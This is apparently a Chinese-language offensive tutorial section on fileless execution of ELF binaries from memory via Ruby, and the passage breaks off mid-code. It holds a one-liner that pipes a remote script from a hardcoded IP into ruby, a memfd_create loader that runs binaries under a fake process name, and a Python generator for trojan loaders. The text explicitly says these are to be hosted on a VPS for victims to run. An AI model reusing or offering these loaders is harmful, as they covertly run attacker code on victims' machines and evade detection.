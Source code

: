 ## 4 Ruby*

### 无文件一句话

```shell
curl -k -s "https://213.12.122.13:46379/z9IWXokG3Td18w2EfyntRFMZsaec7P/ruby/core.rb" | ruby
```

### 服务器端部署

1.示例demo（部署在本地的elf内存加载器）

```ruby
fd = syscall 319,"",1
procd='/proc/self/fd/'+fd.to_s
f2 = File.open(procd,"wb")

f1 = File.open('/usr/bin/ping',"rb")
f1.each_line {|line|
    f2.write(line)
}
f1.close
f2.close

pid = Process.fork() {
	fd = syscall 112
	exec [procd, b'fakename'], '192.168.44.160'
}
exit
```

2.远程木马加载器生成器（部署在远程的加载器生成器）

运行本python文件，生成ruby版的elf内存加载器，将生成的文件放在vps对应目录，供受害者使用一句话获取运行。

```python
import zlib
import binascii
import optparse

def read_file(filename):
    binarys=b""
    f=open(filename,"rb")
    for binary in f.readlines():
        binarys+=binary
    return binascii.b2a_hex(binarys)

def create_loader(data):
    src1_code="data = \"%s\".scan(/../).map{|x| x.to_i(16)}.pack(\"c*\")" %(str(data, encoding="ascii"))
    src2_code='''
fd = syscall 319,"",1
procd='/proc/self/fd/'+fd.to_s
f2 = File.open(procd,"wb")

data.each_line {|line|
    f2.write(line)
    #print line
}

f2.close
pid = Process.fork() {
    fd = syscall 112
    exec [procd, 'fakename'], '192.168.44.160'
}
exit
```